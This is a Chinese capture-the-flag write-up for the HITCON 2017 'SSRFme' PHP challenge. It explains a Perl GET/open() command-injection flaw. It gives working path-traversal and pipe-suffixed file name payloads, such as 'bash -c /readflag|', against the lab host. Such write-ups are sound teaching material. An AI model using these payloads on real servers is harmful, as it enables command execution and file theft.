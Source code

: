 # [HITCON 2017]SSRFme

[题目地址](https://buuoj.cn/challenges#[HITCON%202017]SSRFme)

最喜欢这种php题了，知识点非常明确而且好学。但是php题的考点为什么是perl命令执行漏洞啊？

```php
<?php
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $http_x_headers = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $_SERVER['REMOTE_ADDR'] = $http_x_headers[0];
    }
    //输出这个地址是为了我们好了解到sandbox下的地址
    echo $_SERVER["REMOTE_ADDR"];
    //虽然没有明确给出sandbox的地址，但是根据md5(orange+REMOTE_ADDR)就能自己构建出地址了
    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);
    @mkdir($sandbox);
    @chdir($sandbox);
    //执行命令“GET url”，注意这个GET命令是perl的
    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));
    //info是文件路径信息数组
    $info = pathinfo($_GET["filename"]);
    //如果有目录就取出目录
    $dir  = str_replace(".", "", basename($info["dirname"]));
    //在目录处建文件夹并切换目录
    @mkdir($dir);
    @chdir($dir);
    //把GET命令的执行结果放入文件名指定文件中，如果没有文件就在指定目录下创建新文件
    @file_put_contents(basename($info["basename"]), $data);
    highlight_file(__FILE__);
```

简述程序的逻辑就是，程序帮我们执行命令`GET url`，然后把执行结果写入filename对应的文件中。我们可以先看看服务器的根目录有什么。

- http://8559cd8f-37cf-43d0-9411-d39ee5c8dad3.node4.buuoj.cn:81/?url=../../../../../../../&filename=a

然后根据自己ip找到沙盒地址，读取a文件内容。

- http://8559cd8f-37cf-43d0-9411-d39ee5c8dad3.node4.buuoj.cn:81/sandbox/2eeed2f9aeae6311b507ada8fb98809e/a

发现目录下有个flag和readflag。本来想着直接让`url=../../../../../../../flag&filename=b`读flag的，结果查看b文件发现是空的。有点疑惑，不信邪，继续用同样的方法搞了个readflag。

- http://8559cd8f-37cf-43d0-9411-d39ee5c8dad3.node4.buuoj.cn:81/?url=../../../../../../../readflag&filename=b

访问b还真的下载下来了。文件是elf，不务正业反编译了一波，没啥看的，里面就是打开flag文件然后输出，不知道为啥flag下载不了readflag却可以。这下没招了，最开始不知道GET命令是perl的，自然不懂如何利用，直到看了[wp](https://blog.csdn.net/qq_45521281/article/details/105868449)，你是perl的命令啊？想想也是，[shell_exec](https://www.php.net/manual/zh/function.shell-exec.php)通过shell执行命令，shell里面装了perl很正常吧？顺便放个pathinfo的[链接](https://www.runoob.com/php/func-filesystem-pathinfo.html)。

这个漏洞起源于perl的GET命令源码里调用了open函数。在perl下，如果open的第二个参数（path）可控，我们就能进行任意代码执行。巧了吗这不是，GET url里面的url就会被传入path。像下面这样就可以命令执行：

```
touch 'id|'
GET 'file:id|'

uid=0(root) gid=0(root) groups=0(root)
```

第一句`touch 'id|'`，创建一个名为`id|`的文件，这个命令执行漏洞触发的前提是文件存在。之后用`GET 'file:id|'`就能指定id这个命令了，管道符`|`在前在后都行。于是就有payload：

- http://8559cd8f-37cf-43d0-9411-d39ee5c8dad3.node4.buuoj.cn:81/?filename=bash%20-c%20/readflag|&url=

第一次payload的url填不填都行，主要是创建出文件。第二次才是执行时间。

- http://8559cd8f-37cf-43d0-9411-d39ee5c8dad3.node4.buuoj.cn:81/?filename=b&url=file:bash%20-c%20/readflag|

现在访问沙盒下的b文件就能得到flag了。perl的GET命令执行漏洞用起来非常简单，只需要`GET 命令|`就行，前提是名为`命令|`的文件存在。